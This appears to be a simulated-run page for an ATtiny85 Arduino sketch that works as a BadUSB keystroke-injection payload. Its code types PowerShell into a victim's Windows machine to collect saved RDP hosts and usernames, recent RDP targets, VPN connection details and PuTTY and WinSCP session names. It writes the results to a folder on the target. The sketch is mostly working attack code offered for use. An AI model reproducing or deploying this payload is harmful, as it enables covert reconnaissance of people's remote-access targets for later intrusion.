
Simulated run of this sketch. Board: ATtiny85, built with avr-gcc and run on an emulated ATtiny85. Parts: output pins drawn as LEDs (lit = HIGH). The test bench sets the inputs (shaded band); at power-on: PB2 HIGH.

Above: at 0.1 s.
At 16.7 s:

Timing chart, 0 to 18.2 s (numbered marks = the images above):


The sketch:

remote-access.ino
```cpp
// recon/remote-access - Tier 2
//
// Every remote target this user has ever saved: RDP, VPN, PuTTY, WinSCP, AutoRun.
//
// MRU0..MRU9 are the most-missed keys in RDP recon - they hold the most
// recently used targets and are not shown in the Server list.
//
// Read-only, no persistence, nothing left behind except the text file named in
// R_OUT. Output lands in C:\Users\Public\ds-recon\ on the target.

#include <duck.h>

// PROGMEM: this string must live in flash, not SRAM. The ATtiny85 has 512
// bytes of RAM and this script is far larger than that.
static const char S[] PROGMEM =
    R_MKDIR
    "'=== SAVED RDP HOSTS ==='"
    "Get-ChildItem 'HKCU:\\Software\\Microsoft\\Terminal Server Client\\Servers' -EA 0|Select -Expand PSChildName"
    "Get-ItemProperty 'HKCU:\\Software\\Microsoft\\Terminal Server Client\\Servers\\*' -EA 0|Select PSChildName,UsernameHint|Format-List"
    "'=== DEFAULT RDP TARGET ==='"
    "Get-ItemProperty 'HKCU:\\Software\\Microsoft\\Terminal Server Client' -EA 0|Select MRU0,MRU1,MRU2"
    "'=== VPN CONNECTIONS ==='"
    "Get-VpnConnection -EA 0|Select Name,ServerAddress,TunnelType,AuthenticationMethod,SplitTunneling|Format-List"
    "'=== PUTTY SESSIONS ==='"
    "Get-ChildItem 'HKCU:\\Software\\SimonTatham\\PuTTY\\Sessions' -EA 0|Select -Expand PSChildName"
    "'=== WINSCP SESSIONS ==='"
    "Get-ChildItem 'HKCU:\\Software\\Martin Prikryl\\WinSCP 2\\Sessions' -EA 0|Select -Expand PSChildName"
    R_OUT("remote-access.txt")
    R_SHOW("remote-access.txt");

void setup() {
  duckBegin();
  ledPulse(2, 120, 120);
  recon(S);
  ledPulse(4, 150, 150);
}

void loop() {}
```
